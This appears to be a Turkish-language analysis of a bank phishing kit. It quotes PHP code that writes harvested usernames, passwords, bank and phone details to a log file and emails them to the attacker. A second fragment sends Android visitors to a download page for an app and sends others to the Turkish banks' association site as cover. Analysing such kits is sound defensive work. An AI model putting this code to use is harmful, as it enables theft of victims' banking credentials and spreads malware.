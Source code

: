 ```php
{
	$file=fopen("../../".$logfile,"a");
	fwrite($file,$details);
	fclose($file);
}
if($email_feature==1)
{
	mail($send,"$bankname log  $ip",$details);
}
}
else
{
	echo '<script>window.location.assign("http://www.google.com")</script>';
	die();
}
?>
```

Saldırgan kullanıcıdan almış olduğu hassas verilerden:

 - User 
 - Pass 
 - Email 
 - Bank
 - Mobile
 - IP
 - User-Agent
 - Type
 - Time & Date

gibi veriler kendi sunucusu üzerindeki **log.txt** dosyasına yazmaktadır. Böylece kullanıcılara ait parola, hesap numarası gibi bilgileri kaydetmektedir.

Kurban **android** cihazdan bağlandığı durumlarda ise  *download.php* sayfasına yönlendirilmekte ve android uygulamasını indirtmektedir. Aksi durumlarda ise  kurbanı doğrudan Türk Bankalar Birliğinin ana sayfasına (tbb.org.tr'ye) yönlendirmektedir.

```php
<?php
if($android == 1)
{
echo '
	<script>
	setTimeout(function(){ 
	window.location.assign("../../download.php?client-ID=050541574d65fs9864698g4d6984867986494");
redirect(); }, 3000);
	setTimeout(function(){ 
	window.location.assign("https://www.tbb.org.tr");
	 }, 10000);
	</script>
';
}
else
{
echo '
	<script>
	setTimeout(function(){ 
	window.location.assign("https://www.tbb.org.tr");
	 }, 7000);
	</script>';
}

```
